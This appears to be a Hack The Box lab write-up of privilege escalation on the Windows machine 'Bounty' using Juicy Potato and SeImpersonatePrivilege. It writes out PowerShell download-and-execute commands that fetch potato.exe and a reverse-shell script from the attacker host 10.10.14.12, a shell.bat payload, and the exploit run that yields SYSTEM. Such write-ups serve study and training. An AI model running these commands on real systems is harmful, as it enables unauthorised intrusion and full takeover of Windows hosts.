 # 20 - PrivEsc


# SeImporsonatePrivilege Enabled
![](vx_images/4359503728431.png)

# [Juicy Potato](https://github.com/ohpe/juicy-potato)

```p
PS C:\Windows\system32> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/potato.exe','c:\users\merlin\Desktop\potato.exe')
```

![](vx_images/423023982703.png)

* -t, -p, -l are the mandatory arguments
* Need a reverse shell to connect back to us as administrator
* Need a program to download the reverse shell and execute it at the same time

# reverse2.ps1
There should be a reverse shell in our www directory already


```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ ls -la
total 392
drwxr-xr-x 2 kali kali   4096 Jun  8 20:51 .
drwxr-xr-x 7 kali kali   4096 Jun  8 19:38 ..
-rw-r--r-- 1 kali kali 347648 Jun  8 20:17 potato.exe
-rw-r--r-- 1 kali kali   4403 Jun  8 15:03 reverse.ps1
```

Let's create another reverse shell with a different port
```
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ cp reverse.ps1 reverse2.ps1
```

4444 is already being used by our current shell so I'll use 9001 for the root shell
![](vx_images/3750991222980.png)

# shell.bat

Shell.bat is the program that needs to run with .\potato.exe in order to download the reverse shell and execute it.
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bounty/www]
└─$ echo "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse2.ps1')" > shell.bat
```

# upload shell.bat

```p
PS C:\> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/shell.bat','c:\users\merlin\desktop\shell.bat')
```

# Open up a nc listener on port 9001
![](vx_images/4380572137793.png)

# execute potato.exe
```powershell
PS C:\Users\merlin\Desktop> .\potato.exe -t * -p c:\Users\merlin\desktop\shell.bat -l 4445
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\merlin\Desktop> 
```
# nt authority\system
![](vx_images/4016531867188.png)